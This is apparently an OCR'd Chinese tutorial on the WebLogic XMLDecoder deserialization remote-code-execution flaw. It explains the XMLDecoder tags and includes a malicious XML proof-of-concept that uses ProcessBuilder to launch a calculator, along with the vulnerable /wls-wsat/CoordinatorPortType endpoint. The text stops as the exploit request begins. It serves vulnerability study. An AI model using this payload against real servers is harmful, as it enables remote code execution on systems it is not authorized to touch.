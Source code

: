 通过`&lt;object&gt;`标签表示对象，`class`属性置顶具体类(用于调用其内部方法)，`method`属性指定具体方法名称(比如构造函数的方法名为`new`)  
new JButton(&#34;Hello world&#34;)，对应的`XML`文档  
```xml  
&lt;object class=&#34;javax.swing.JButton&#34;&gt;    
 &lt;string&gt;Hello World&lt;/string&gt;    
&lt;/object&gt;  
```  
#### void标签  
通过`void`标签表示函数调用、赋值等操作，`method`属性置顶具体的方法名称。  
`JButton b = new JButton();b.setText(&#34;Hello world&#34;);`对应的`XML`文档  
```java  
&lt;object class=&#34;javax.swing.JButton&#34;&gt;  
    &lt;void method=&#34;setText&#34;&gt;  
    &lt;string&gt;Hello world&lt;/string&gt;  
    &lt;/void&gt;  
&lt;/object&gt;  
```  
#### array标签  
通过`array`标签表示数组，`class`属性指定具体类，内部`void`标签的`index`属性表示根据指定数组索引赋值  
`String[] s = new String[3];s[1] = &#34;Hello world&#34;;`对应的`XML`文档  
### 漏洞影响版本  
`WebLogic`存在`WLS-WebServices`的组件皆会受到影响  
### 漏洞原理  
Weblogic的WLS Security组件对外提供WebService服务，其中使用XMLDecoder来解XML格式数据，其存在反序列化漏洞，从而导致RCE。  
下面来看一个解析xml导致反序列化命令执行的Demo  
```java  
import java.beans.XMLDecoder;    
import java.io.BufferedInputStream;    
import java.io.FileInputStream;    
    
public class XMLDecoderEvilDemo {    
    public static void main(String[] args) throws Exception {    
        FileInputStream file = new FileInputStream(&#34;/Users/f10wers13eicheng/Desktop/JavaSecuritytalk/XMLDemo/result.xml&#34;);    
        XMLDecoder xmldecoder = new XMLDecoder(new BufferedInputStream(file));    
        Object o = xmldecoder.readObject();    
        xmldecoder.close();    
    }    
}  
```  
对应的`result.xml`如下  
```xml  
&lt;java version=&#34;1.4.0&#34; class=&#34;java.beans.XMLDecoder&#34;&gt;    
 &lt;void class=&#34;java.lang.ProcessBuilder&#34;&gt;    
  &lt;array class=&#34;java.lang.String&#34; length=&#34;1&#34;&gt;    
   &lt;void index=&#34;0&#34;&gt;    
    &lt;string&gt;/System/Applications/Calculator.app/Contents/MacOS/Calculator&lt;/string&gt;    
   &lt;/void&gt;  &lt;/array&gt;  &lt;void method=&#34;start&#34;/&gt;&lt;/void&gt;    
&lt;/java&gt;  
```  
使用  
`java.lang.ProcessBuilder`进行代码执行，整个恶意XML反序列化后相当于执行代码：  
```java  
String[] cmd = new String[1];  
cmd[0] = &#34;Calc&#34;;  
new ProcessBuilder(cmd).start();  
```  
### 漏洞复现与分析  
Weblogic本质上是`Web Service`服务，报文内容类型是`SOAP`型`WebService`报文，所以`/wls-wsat/CoordinatorPortType`接口可以接受XML数据的请求包  
构造恶意XML文件，  
```xml  
&lt;java version=&#34;1.4.0&#34; class=&#34;java.beans.XMLDecoder&#34;&gt;    
```